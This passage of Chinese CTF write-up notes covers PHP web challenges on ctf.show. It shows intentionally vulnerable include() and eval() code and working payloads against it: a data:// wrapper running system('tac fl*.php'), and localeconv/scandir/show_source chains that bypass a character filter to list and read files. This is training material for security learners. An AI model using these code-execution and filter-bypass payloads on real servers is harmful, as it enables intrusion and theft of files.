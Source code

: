 ```PHP
# @link: https://ctfer.com  
*/  
  
//flag in flag.php  
error_reporting(0);  
if(isset($_GET['c'])){
	$c = $_GET['c'];  
    if(!preg_match("/flag/i", $c)){  
        include($c.".php");  
    }  
}else{
	highlight_file(__FILE__);  
}
```
不用管`include()`里面的那个`.php`，只要我们闭合了`$c`中的PHP代码，那后面的也不会有用。
所以我们使用：
```bash
https://d3b86d58-9281-4fe3-a43b-548e57f31ecc.challenge.ctf.show/?c=data://text/palin,%3C?php%20system(%22tac%20fl*.php%22);%20?%3E
```
就可以了。
# Web 40
```PHP
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2020-09-04 00:12:34  
# @Last Modified by:   h1xa  
# @Last Modified time: 2020-09-04 06:03:36  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
*/  
  
  
if(isset($_GET['c'])){
	$c = $_GET['c'];  
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){  
        eval($c);  
    }      
}else{
	highlight_file(__FILE__);  
}
```

先看文件目录：
```
{URL}/?c=var_dump(scandir(pos(localeconv())));
```
![[Pasted image 20240824213038.png]]
- 通常，`localeconv()` 返回的第一个元素可能是 `decimal_point` 键，其值为小数点符号（例如，`"."`）。
- `scandir(pos(localeconv()))` 可能相当于 `scandir(".")`，即列出当前目录的内容。
- **`var_dump()`** 输出 `scandir()` 的返回结果。
然后再`show_source()`
```
{URL}/?c=show_source(next(array_reverse(scandir(pos(localeconv())))));
```
![[Pasted image 20240824212907.png]]
# Web 41